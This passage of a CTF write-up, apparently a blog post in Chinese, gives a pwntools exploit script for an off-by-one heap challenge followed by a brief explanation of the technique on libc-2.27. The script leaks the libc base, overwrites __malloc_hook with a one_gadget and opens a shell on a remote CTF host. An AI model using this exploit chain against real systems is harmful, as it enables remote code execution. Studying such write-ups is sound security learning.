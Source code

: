 ```python
	p.sendlineafter(": \n",str(idx))
def show():
	cmd(3)
libc=ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
#p=process('./timu')
p=remote("111.198.29.45",34670)
context.log_level='debug'
add(0x400)#0
add(0x88)#1
add(0x88)#2
free(0)
add(0x18,"A"*0x18)#0
add(0x88)#3
add(0x88)#4
free(3)
free(1)
add(0x1e0-8)#1
add(0x88)#3
show()
p.readuntil("4 : ")
base=u64(p.readuntil(" ")[:-1].ljust(8,'\x00'))-(0x7ffff7dd1b78-0x7ffff7a0d000)
log.warning(hex(base))
libc.address=base
add(0x68)#5
add(0x68)#6
free(5)
free(6)
free(4)
free(0)
one=0xf02a4
add(0x68,p64(libc.sym['__malloc_hook']-35)+'\n')#0
add(0x68)
add(0x68)#5
add(0x68,'\x00'*19+p64(one+base)+'\n')

free(0)
free(5)
#gdb.attach(p,"b _int_free")
p.interactive()
```



# 2.27
`libc-2.27`和`libc-2.23`主要的不同是有了`tcache`机制但是对`tcache`的保护又没有后续版本例如`libc-2.29`那般丰富.

[binary][1]

`OFF_BY_ONE`的常见利用方法是(简要复习一下)
```s
1.利用OFF_BY_ONE去shrin unsortedbin(目的是之后在unsorted bin 中割出一小块的时候不会影响 原本留在下一个chunk的pre_size)
2.为了绕过`pre size vs size`检测 所以需要在`unsortedbin`中先malloc一个能留下pre_size的小chunk之后free
3.free 原本 unsorted bin 下方的chunk 进入 unsoted bin 这样就会触发 unlink操作 从而造成overlap 
```


[0]: https://n132.github.io/2019/04/11/2019-04-11-Off-by-one/
[1]: https://github.com/n132/Watermalon/tree/master/QCTF_2018/babyheap
[2]: https://github.com/n132/Watermalon/tree/master/0CTF_2019/babeheap229